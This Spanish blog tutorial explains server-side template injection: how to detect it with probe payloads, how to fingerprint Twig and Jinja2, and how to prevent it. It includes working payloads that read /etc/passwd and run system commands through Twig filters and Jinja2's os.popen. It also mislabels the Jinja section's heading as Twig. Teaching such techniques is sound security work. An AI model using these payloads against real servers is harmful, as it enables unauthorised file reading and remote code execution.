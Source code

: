 ```yaml
---
date: 2025-10-20T16:15:05.000Z
layout: post
comments: true
title: "Server-side Template Injection"
subtitle: 'SSTI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/sstilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssti
author: Felipe Canales Cayuqueo
paginate: true
---
```


La inyección de plantillas del lado del servidor (SSTI) ocurre cuando un atacante logra insertar código dentro de una plantilla que luego es procesada por el servidor. Esto permite que el código malicioso se ejecute durante el renderizado, pudiendo comprometer por completo el sistema. La vulnerabilidad surge cuando la aplicación inserta directamente la entrada del usuario en la plantilla antes de renderizarla, o cuando el mismo contenido renderizado se vuelve a procesar, provocando que la entrada del usuario sea tratada como parte del código de plantilla.

### Identificación

Para poder confirmar la vulnerabilidad se debe provocar un mensaje de error en la aplicación web con el siguiente payload.

```
${{<%[%'"}}%\.
```

Tras identificar la posible vulnerabilidad, se debe determinar el motor de plantilla utilizado por la aplicación web a través de la siguiente tabla. 

[![ssti7](/images/ssti7.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti7.png)

#### Payloads

* ```${7*7}```

* ```a{*comment*}b```

* ```${"z".join("ab")}```

* ```{{7*7}}```

* ```{{7*'7'}}```

#### Ejemplo

* Primero ingresamos ```${7*7}```, como no se interpretó significa que debemos seguir de la tabla la flecha que dice "no funciona".
 
    [![ssti1](/images/ssti1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti1.png)

    [![ssti2](/images/ssti2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti2.png)

* La tabla nos indica que debemos ahora probar con el payload ```{{7*7}}```, con el cual obtenemos éxito y se interpreta.

    [![ssti3](/images/ssti3.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti3.png)

    [![ssti4](/images/ssti4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti4.png)

* Como funcionó ahora debemos validar ```{{7*'7'}}``` donde obtenemos como resultado 49, es decir siguiendo la tabla nos estamos enfrentando ante un motor de plantillas "Twig".

    [![ssti5](/images/ssti5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti5.png)

    [![ssti6](/images/ssti6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssti6.png)


### Explotación de Twig

Para este caso tenemos ciertas funciones internas para obtener más información e incluso obtener acceso al sistema.

#### Divulgación de información

Con la función ```_self``` es posible obtener más información de la plantilla.

```
{{ _self }}
```


#### Local File Inclusion

El marco web PHP Symfony define filtros Twig adicionales y uno de estos filtros es ```file_excerpt``` que permite leer archivos locales del sistema.

```
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de código, podemos utilizar una función incorporada de PHP como ```system```. Podemos pasar un argumento a esta función usando ```filter```.

```
{{ ['id'] | filter('system') }}
```

### Explotación de Twig

Jinja es un motor de plantillas utilizado en frameworks de Python como Flask o Django. En este tipo de vulnerabilidad, el atacante puede aprovechar que Jinja permite acceder a bibliotecas ya importadas por la aplicación, tanto de forma directa como indirecta, e incluso importar nuevas mediante la instrucción ```import```, lo que amplía su capacidad para ejecutar código malicioso en el servidor.

#### Divulgación de información

Es posible obtener información interna sobre el sistema, incluidos detalles de configuración e incluso el código fuente de la aplicación web.

```
{{ config.items() }}
```

También podemos obtener información sobre las funciones integradas disponibles en el código fuente.

```
{{ self.__init__.__globals__.__builtins__ }}
```

#### Local File Inclusion

Para explotar esta vulnerabilidad debemos utilizar la función incorporada de Python ```open``` en conjunto con ```__builtins__```.

```
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

#### Ejecución remota de comandos (RCE)

Para lograr la ejecución remota de comandos debemos utilizar funciones proporcionadas por el módulo ```os```, ```system``` o ```popen```.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

> Se recomienda la herramienta automatizada [SSTImap](https://github.com/vladko312/SSTImap).

### Recomendaciones

Para prevenir vulnerabilidades SSTI, es fundamental garantizar que la entrada del usuario nunca se inserte directamente en las plantillas antes del proceso de renderizado. Se debe validar y sanear toda entrada, evitando que contenga caracteres o estructuras que puedan ser interpretadas como código. Además, los datos del usuario deben pasar únicamente como valores de contexto y no como parte del código de plantilla. Es recomendable utilizar motores de plantillas configurados con opciones de seguridad activadas, eliminar funciones peligrosas como eval o import, y aislar el entorno de ejecución mediante contenedores o entornos separados.
